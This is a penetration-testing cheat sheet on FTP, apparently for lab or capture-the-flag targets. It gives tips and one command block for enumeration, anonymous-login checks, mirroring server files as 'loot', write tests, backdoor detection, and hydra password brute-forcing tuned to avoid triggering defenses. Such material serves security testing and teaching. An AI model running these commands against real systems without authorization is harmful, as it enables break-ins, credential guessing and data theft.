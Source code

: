 ## Practical tips
- Toggle passive/active mode if directory listings or transfers hang (firewalls/NAT often break active mode).
- Always try anonymous:anonymous and anonymous with blank password; look for common folders like pub, upload, backup, www, htdocs, conf.
- Be minimally invasive when checking write access: create a temporary folder, drop a tiny test file, and clean up.
- Use -sC with Nmap for quick wins, then pivot to specific ftp-* scripts.
- Save outputs (-oN) and mirror directories for offline grep and tooling; don’t rely on interactive output.
- Correlate FTP contents with web apps (e.g., wp-config.php, .env, database dumps) if FTP root maps to a web root.
- Limit brute-force speed and set stop-on-first-found (-f) to avoid triggering defenses; prefer curated userlists.
- If FTPS is enforced, use lftp or curl with TLS flags; some plain ftp clients will fail silently.
- Note classic tells:
  - 220 (vsFTPd 2.3.4) … possible backdoor indicator (verify with NSE).
  - 220 ProFTPD 1.3.3c … historical backdoor build (NSE: ftp-proftpd-backdoor).
  - 220 Microsoft FTP Service … often IIS; check for NT-style paths and permission quirks.

## Minimal cheat sheet (one-screen flow)
```
TARGET=10.10.10.10

# Quick enum
nmap -p21 -sV -sC -oN nmap_ftp_$TARGET.txt $TARGET
nmap -p21 -sV --script=ftp-anon,ftp-syst,ftp-bounce,ftp-vsftpd-backdoor,ftp-proftpd-backdoor -oN nmap_ftp_nse_$TARGET.txt $TARGET

# Banner & features
printf "SYST\r\nFEAT\r\nQUIT\r\n" | nc -nv $TARGET 21

# Anonymous check + mirror
curl -s --user anonymous:anonymous "ftp://$TARGET/" | head
mkdir -p loot_$TARGET && cd loot_$TARGET
wget -m -nH --ftp-user=anonymous --ftp-password=anonymous ftp://$TARGET/
cd -

# Safe write test
echo test > test.txt
lftp -u anonymous,anonymous "$TARGET" -e "mkdir .writetest 2>/dev/null; cd .writetest || true; put test.txt; ls -l; rm -f test.txt; cd ..; rmdir .writetest 2>/dev/null; bye"
rm -f test.txt

# Brute force (careful)
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt -u -t 4 -f -o hydra_ftp_$TARGET.txt ftp://$TARGET

# TLS/FTPS
nmap -p21,990 --script ssl-cert,ssl-enum-ciphers -oN nmap_ftp_tls_$TARGET.txt $TARGET
openssl s_client -starttls ftp -connect $TARGET:21 -crlf </dev/null | head
```
